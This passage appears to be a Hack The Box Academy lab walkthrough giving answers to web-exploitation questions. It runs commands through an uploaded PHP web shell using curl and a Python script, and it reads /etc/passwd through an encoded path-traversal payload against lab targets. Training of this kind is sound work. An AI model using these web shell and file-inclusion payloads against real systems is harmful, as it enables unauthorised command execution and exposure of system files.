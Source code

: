 ```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s -w "\n" http://10.129.183.189:3001/uploads/backdoor.php?cmd=hostname

nix01-websvc
```

Alternatively, students can use the Python script provided in the section after saving it to a file:

Code: shell

```shell
python3 webShell.py -t http://STMIP:3001/uploads/backdoor.php -o yes
hostname
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 webShell.py -t http://10.129.147.235:3001/uploads/backdoor.php -o yes

$ hostname

nix01-websvc
```

Answer: `nix01-websvc`

# Local File Inclusion (LFI)

## Question 1

### "Through the LFI vulnerability identify an existing user on the server whose name starts with "ub". Answer format: ub\*\*\*\*"

After spawning the target machine, students need to use an LFI payload that will read the `/etc/passwd` file:

Code: shell

```shell
curl -s "http://STMIP:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd" | grep "ub.*"
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s "http://10.129.163.78:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd" | grep "ub.*"

ubuntu:x:1000:1000::/home/ubuntu:/bin/shell-session
```

Answer: `ubuntu`

# Cross-Site Scripting (XSS)
